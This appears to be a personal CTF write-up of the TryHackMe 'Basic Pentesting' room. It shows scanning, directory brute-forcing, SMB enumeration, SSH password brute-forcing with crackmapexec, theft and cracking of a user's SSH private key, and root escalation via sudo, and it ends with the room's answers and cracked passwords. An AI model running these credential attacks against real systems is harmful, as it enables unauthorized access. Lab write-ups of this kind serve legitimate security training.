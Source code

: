 Hey Hackers, 

I think it's time for me to wash the dirt off my hands by sharing the methodologies I use for compromising the CTF machines on hacking platforms like `HackTheBox`, `TryHackMe` etc. After a lot of bullshits I came back to the good old conclusion of `Sharing is Caring!`. Even though I have done much of machines before, I rarely document my art of hacking. As this is a Beginning I think it'll be better for me to start from basic easy machines to the much insane ones, 

Lets take single small steps a time.

So enough of this junk talks, let's get in to the game. Today from tons of easy machines, the lot has been fallen for the `Basic Pentest` [machine](https://tryhackme.com/r/room/basicpentestingjt) in `TryHackMe` which is a very easy one.

Let's fire up the machine first. Take some time to lit up my Hacking Skills. I'm just blabbering this craps only because this is my first writeup. I don't talk much usually. lol.

As always let's begin with a simple and quickest port scan using rustscan. You can get the rustscan from [here](heresareallystrongpasswordthatfollowsthepasswordpolicy$$).
```sh
rustscan -a 10.10.207.198 --ulimit 5000 | tee ./nmap/rust.log
<snipped>
Nmap scan report for 10.10.207.198
Host is up, received syn-ack (0.24s latency).
Scanned at 2024-08-24 01:13:22 IST for 1s

PORT     STATE SERVICE      REASON
22/tcp   open  ssh          syn-ack
80/tcp   open  http         syn-ack
139/tcp  open  netbios-ssn  syn-ack
445/tcp  open  microsoft-ds syn-ack
8009/tcp open  ajp13        syn-ack
8080/tcp open  http-proxy   syn-ack
```

I used rustscan for the quick port enumeration. It's usually time saving. We got the open ports and now let's use Nmap to footprint the open services. There are options to use Nmap along with rustscan but I just prefer the old school way.

Enumerate the service versions using Nmap on the open ports
```sh
nmap -sV 10.10.207.198 -p 22,80,139,445,8009,8080 -oN ./nmap/Service.log
<snipped>
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open  http        Apache Tomcat 9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As we can see from above two output results, there are 6 open ports. `SSH` is a common open port in the CTFs which is of no use normally except for login to the server if we could enumerate any credentials from other sources. or Bruteforce is the thing we got. That's the last and final option for me while I'm on a box.

So for now let's begin with the second smallest port in the order, that is `80` which is serving an `Apache httpd 2.4.18 web server`. It also hints that the host machine platform is `Ubuntu`.

Let's fire up a web browser and take a look through the server.
```sh
firefox http://10.10.207.198 &
```

Oh Damn! There is nothing much in here.
![[Attachments/Pasted image 20240824012735.png]]

Just a custom page saying it's under maintenance. Let's try inspect the source code and take a look.
![[Attachments/Pasted image 20240824012847.png]]
That looks like a hint for us, ain't it?. 

It looks like a message to someone coming here. Possibly there would be more files and directories in the server. 
So how do we know where the files are at? 

Ya, Lets Bruteforce the directories in the server using `Gobuster`.
```sh
gobuster dir -u http://10.10.207.198/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -o gobuster_80.log -t 40
<snipped>
/development          (Status: 301) [Size: 320] [--> http://10.10.207.198/development/]
```
Ha, we got a redirect code `302` on directory name `/development`.

![[Attachments/Pasted image 20240824013510.png]]
There are two text files in the directory. Seems like these are the notes that hinted in the home page source code comments.

After opening the text files.
![[Attachments/Pasted image 20240824013641.png]]
![[Attachments/Pasted image 20240824013658.png]]
Reading these notes, we could understand that these two notes are chat conversations between two users `J` and `K`, and one of the guy is working on an apache struts and not yet completed, there is a SMB Server configured and running, `K` is also asking `J` to update his password and it's less secure and easily cracked.

The above files telling us there is probable chance of bruteforcing the credential in any of the logins, but till now we do not have any usernames known but only first letters of the names.

Let's go enumerate `SMB 445` as the next port as they hinted about it in the conversation files.
```sh
smbclient -N -L //10.10.207.198/  

Sharename       Type      Comment
---------       ----      -------
Anonymous       Disk      
IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
```

Enumerate the shares,
```sh
smbclient -N //10.10.207.198/anonymous 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 19 23:01:20 2018
  ..                                  D        0  Thu Apr 19 22:43:06 2018
  staff.txt                           N      173  Thu Apr 19 22:59:55 2018
14318640 blocks of size 1024. 11086752 blocks available
```

There is another note in the SMB share called `staff.txt`, Let's read it
```sh
smb: \> !cat staff.txt 
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it\'s all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```
That's a staff announcement. But what's something valuable to us is, we got the full usernames!! `Kay and Jan`. 
We already know that the password of the user `Jan` is very weak and can be easily cracked. So let's try bruteforce the `SSH` using `hydra` or `crackmapexec`. I am using `CrackMapExec` this time.
```sh
crackmapexec ssh 10.10.207.198 -u jan -p /usr/share/wordlists/rockyou.txt 
<snipped>
SSH         10.10.207.198   22     10.10.207.198    [-] jan:loveme1 Authentication failed.                             
SSH         10.10.207.198   22     10.10.207.198    [-] jan:milagros Authentication failed.                            
SSH         10.10.207.198   22     10.10.207.198    [-] jan:stella Authentication failed.                              
SSH         10.10.207.198   22     10.10.207.198    [-] jan:lilmama Authentication failed.                             
SSH         10.10.207.198   22     10.10.207.198    [-] jan:beyonce Authentication failed.                             
SSH         10.10.207.198   22     10.10.207.198    [-] jan:lovely1 Authentication failed.                             
SSH         10.10.207.198   22     10.10.207.198    [-] jan:rocky Authentication failed.     
SSH         10.10.207.198   22     10.10.207.198    [-] jan:daddy Authentication failed.    
SSH         10.10.207.198   22     10.10.207.198    [-] jan:catdog Authentication failed.                              
SSH         10.10.207.198   22     10.10.207.198    [+] jan:armando                 
```

Success! We got the password for the user `jan:armando`.

Meanwhile I went through the other open ports `8009` and `8080` as well. Found nothing useful in there so just left it there, and by the time the credentials got cracked out from `crackmapexec`.

So, Login to the ssh server.
![[Attachments/Pasted image 20240824015826.png]]
\<snipped>
![[Attachments/Pasted image 20240824015859.png]]
After a lite enumeration we got the `ssh id_rsa` file for the user `Kay` from his user home directory and we have permission to read it.
![[Attachments/Pasted image 20240824020149.png]]

Let's try to login to the user kay using this file.
```sh
jan@basic2:/home/kay/.ssh$ ssh kay@127.0.0.1 -i id_rsa
```

![[Attachments/Pasted image 20240824020637.png]]
We are unable to login to the user as it requires passphrase for the `id_rsa` file and we don't have it.

So Let's transfer it on to our attack machine by copy paste or some other means and brute force the passphrase, Here I'm using `SCP` for transferring the files.
```sh
scp jan@10.10.207.198:/home/kay/.ssh/id_rsa ./
```
Transfer successful.

Lets try to crack it using our beloved `John`.
```sh
ssh2john id_rsa > kay_rsa.hash
john kay_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt 
john kay_rsa.hash --show  
```

![[Attachments/Pasted image 20240824021013.png]]
We cracked the passphrase for the file. now lets log in to the user `Kay` using this file.
```sh
ssh kay@10.10.207.198 -i id_rsa
```
![[Attachments/Pasted image 20240824021211.png]]

There is a `pass.bak` file in the user home directory of this user and it wasn't readable with user `Jay` but now it's readable as the file is owned by  `Kay`.
![[Attachments/Pasted image 20240824021340.png]]
We got a password in the file and it looks like its the password for `Kay:heresareallystrongpasswordthatfollowsthepasswordpolicy$$`.

Now let's check for the `sudo permission` for this user to escalate privileges to root.
```sh
sudo -l
```
![[Attachments/Pasted image 20240824021538.png]]
This user has full permission and can do anything and everything.

So let's switch and interact as root user.
```sh
sudo -i
```

![[Attachments/Pasted image 20240824021650.png]]
Ta Da !!! We broke the coconut shell. It's a final note congratulating us for this victory. Seems like a best start for me on this writeup journey and to you as well.

---
What is the name of the hidden directory on the web server(enter name without /)?
> /development

What is the username?
> jan

What is the password?
> armando

What service do you use to access the server(answer in abbreviation in all caps)?
>SSH

What is the name of the other user you found(all lower case)?
> kay

What is the final password you obtain?
> heresareallystrongpasswordthatfollowsthepasswordpolicy$$


 Congratulation! Hack Every Shells
 ~/ Unknown Coconut
